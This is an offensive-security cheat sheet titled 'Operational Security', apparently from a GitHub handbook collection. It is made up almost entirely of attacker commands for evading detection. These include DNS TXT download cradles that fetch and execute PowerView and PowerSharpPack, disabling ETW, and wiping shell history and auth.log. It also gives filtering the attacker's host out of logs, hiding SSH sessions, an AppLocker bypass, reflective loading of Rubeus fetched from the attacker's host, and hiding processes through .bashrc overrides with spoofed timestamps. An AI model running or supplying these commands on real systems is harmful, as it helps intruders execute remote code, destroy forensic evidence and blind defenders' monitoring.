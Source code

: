 # Operational Security

## Table of Contents

- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Avoid-Invoke-Expression-IEX-and-Invoke-WebRequest-IWR)
- [Bypassing Event Tracing for Windows (ETW)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Bypassing-Event-Tracing-for-Windows-ETW)
- [Clear Linux History](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Clear-Linux-History)
- [Hiding SSH Sessions](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Hiding-SSH-Sessions)
- [Logfile Cleaning](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Logfile-Cleaning)
- [LOLBAS](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#LOLBAS)
- [.NET Reflection](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#NET-Reflection)
- [Process Hiding](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Process-Hiding)
- [ProxyChains](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#ProxyChains)
- [Save File Deletion](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Save-File-Deletion)
- [Sneaky Directory](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Sneaky-Directory)
- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/operational_security.md#Windows-Advanced-Threat-Protection-ATP)

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

### Concatinate Payloads

```c
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Clear Linux History

```c
* echo "" > /var/log/auth.log
* echo "" > ~/.bash_history
* rm ~/.bash_history
* history -c
* export HISTFILESIZE=0
* export HISTSIZE=0
* kill -9 $$
* ln /dev/null ~/.bash_history -sf
* ln -sf /dev/null ~/.bash_history && history -c && exit
```

## Hiding SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USERNAME>@<RHOST> 'bash -i'
```

- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```c
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```c
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```c
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```c
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

## .NET Reflection

```c
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## ProxyChains

> https://github.com/haad/proxychains

```c
$ proxychains <APPLICATION>
```

### Configuration

```c
socks4 metasploit
socks5 ssh
socks4  127.0.0.1 1080
socks5  127.0.0.1 1080
```

### Proxychain the whole Terminal Input

```c
$ proxychains zsh
$ nmap -p 80 <RHOST>
```

## Save File Deletion

```c
$ shred -z <FILE>
```

Alternatively:

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Sneaky Directory

```c
$ sudo mkdir -p /mnt/.../<DIRECTORY>
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```
